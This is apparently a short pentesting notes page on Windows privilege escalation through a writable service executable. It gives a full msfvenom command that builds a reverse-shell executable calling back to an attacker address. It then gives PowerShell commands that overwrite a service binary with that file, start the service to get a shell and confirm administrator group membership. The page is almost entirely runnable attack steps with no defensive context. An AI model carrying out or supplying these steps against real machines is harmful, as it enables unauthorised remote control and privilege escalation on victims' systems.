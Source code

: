 -- -
Attach an executable to a service.
[[Dark Arts/Privesc/Windows/Enumeration/Service Executable Files|Enum]]
#### Payload
First make a malicious executable.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9001 -f exe -o x.exe
```
Then [[Windows|file transfer]] it to target.
#### Exploit
On target box
```powershell
# overwrite original executable file found in the enum linked above, below is just an example file
copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

# then just start the service in question, again this is identified in the enum steps linked above and the following is just an example
sc start filepermsvc

# You should get a reverse shell, or whatever behavior you put into your payload. if it was adding "user" to "administrators" group, check it worked:
net localgroup administrators

# then log in as "user"
```